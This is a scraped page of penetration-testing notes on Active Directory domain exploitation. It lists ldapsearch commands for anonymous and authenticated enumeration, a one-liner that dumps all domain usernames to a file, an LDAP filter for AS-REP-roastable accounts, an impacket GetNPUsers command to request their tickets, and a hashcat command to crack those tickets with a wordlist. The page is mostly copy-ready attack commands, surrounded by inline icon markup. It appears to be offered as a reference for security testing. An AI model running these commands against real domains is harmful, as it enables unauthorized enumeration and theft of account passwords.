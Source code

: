 Below are some useful LDAP queries that will help you enumerate a system. Some of them require a valid username/password to get more information. My go-to for these queries is `ldapsearch `.

Null session:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1604'%3e%3cg data-evernote-id='1605' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1606' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1607' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

ldapsearch -x -h 10.10.10.123 -D '' -w '' -b "DC=BURMAT,DC=CO"
Authenticated:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1619'%3e%3cg data-evernote-id='1620' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1621' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1622' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

ldapsearch -LLL -x -H ldap://burmat.co -D "svc-burmat" -w "burmat123$" -b "dc=burmat,dc=co" "<LDAP QUERY HERE>"

##

Domain Usernames[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1634'%3e%3cg data-evernote-id='1635' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1636' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1637' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#domain-usernames)

Get usernames into a list by enumerating user objects:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1645'%3e%3cg data-evernote-id='1646' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1647' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1648' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

ldapsearch -x -h burmat.co -b "dc=burmat,dc=co" -s sub "(objectclass=user)" | grep sAMAccountName | cut -d " " -f 2 > users.txt

##

ASREPRoast Accounts[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1660'%3e%3cg data-evernote-id='1661' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1662' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1663' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#asreproast-accounts)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1667'%3e%3cg data-evernote-id='1668' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1669' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1670' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

111## ldap filter to find accounts susceptible to this:

112"(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"

113​
114## generate a list of user accounts and use impacket to exploit:

115python GetNPUsers.py -request -no-pass -dc-ip 10.1.1.123 burmat.co/ -usersfile users.txt

116​
117## and if you get a ticket, you can crack it:
118hashcat -m 18200 -a 0 --force user.hash /usr/share/wordlists/rockyou.txt
